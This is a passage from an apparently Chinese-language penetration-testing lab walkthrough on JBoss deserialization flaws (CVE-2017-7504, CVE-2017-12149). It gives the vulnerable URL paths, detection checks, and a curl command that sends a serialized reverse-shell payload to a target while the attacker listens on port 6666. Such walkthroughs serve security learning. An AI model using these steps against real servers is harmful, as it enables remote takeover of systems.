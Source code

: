 ![image-20241115170848392](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115170848392.png)
* 反弹shell成功！


![image-20241115170921254](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115170921254.png)
## CVE\-2017\-7504（JBossMQ JMS 反序列化漏洞）



```
	CVE-2017-7504漏洞与CVE-2015-7501的漏洞原理相似，只是利用的路径稍微出现了变化，CVE-2017-7504出现在/jbossmq-httpil/HTTPServerILServlet路径下。
	影响范围：JBoss AS 4.x及之前版本

```

#### 漏洞发现


 访问`/jbossmq-httpil/HTTPServerILServlet`，若出现如下界面则存在漏洞


![image-20241115230020893](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115230020893.png)
#### 漏洞利用


 继续利用`JavaDeserH2HC`，攻击机记得开启6666端口



```
# 利用上个漏洞已经生成了反序列化字符串，直接使用curl即可
curl http://靶机-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser

```

![image-20241115230350086](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115230350086.png)
* 成功！


![image-20241115230430761](https://left-shoulder.oss-cn-huhehaote.aliyuncs.com/img/image-20241115230430761.png)
## CVE\-2017\-12149（JbossApplicationServer反序列化命令执行漏洞）



```
	和上面的差不多，路径换成/invoker/readonly
	影响范围：JBoss 5.x - 6.x

```

#### 漏洞发现


 访问`/invoker/readonly`，若返回如下显示状态码为500的报错界面,则证明漏洞存在
